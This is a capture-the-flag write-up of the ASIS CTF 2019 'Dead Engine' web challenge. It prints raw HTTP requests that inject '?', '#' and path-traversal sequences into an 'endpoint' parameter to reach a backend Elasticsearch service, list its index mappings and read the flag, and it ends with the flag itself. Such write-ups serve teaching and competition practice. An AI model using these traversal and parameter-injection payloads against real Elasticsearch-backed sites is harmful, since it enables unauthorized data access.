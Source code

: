 # ASIS CTF quals - 2019

###### Contributed by Cyku

## Dead Engine - 112 / Web


Description:
Have you ever thought, what would you have done if you had access to all the data stored on the Google database?

Please don't scan the server! It won't help you.


### Solution

This challenge has only one simple web page. Looks like:
![](DeadEngine_01.png)

When you type something into the input box, it would perform a AJAX request to `/?action`. 

AJAX request:
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 20

q=a&endpoint=search
```
![](DeadEngine_02.png)

We fuzzed the parameter `endpoint` and found some strange messages.
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 22

q=a&endpoint=./search
```
![](DeadEngine_03.png)

According to this message, we can guess that the backend is an `Elastic Search` service. This AJAX api would directly show the response from `Elastic Search` if `json_decode` failed.

And then we found that we can even inject `?`, `#` to the search API of Elastic Search. Use `?format=yaml` to force the Elastic Search to return the yaml format instead of json, so `json_decode` always fails and show whole response from Elastic Search. Use `#` to hide other parameters on search API, make sure the search result is what we expected.
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 37

q=a&endpoint=./search?format=yaml%23
```
![](DeadEngine_04.png)

Elastic Search provides a API called `_mapping`. This API allows us to retrieve mapping definitions for an index.

We tried to get mappings of all indices and types, and found an index named `secr3td4ta` contains a type named `fl4g?`, looks like it should has the flag!
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 46

q=a&endpoint=/../../../_mapping?format=yaml%23
```
![](DeadEngine_05.png)

Last step, use search API to get flag.
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 66

q=a&endpoint=/../../../secr3td4ta/fl4g%253f/_search?format=yaml%23
```
![](DeadEngine_06.png)

`ASIS{2a6e210f10784c9a0197ba164b94f25d}`
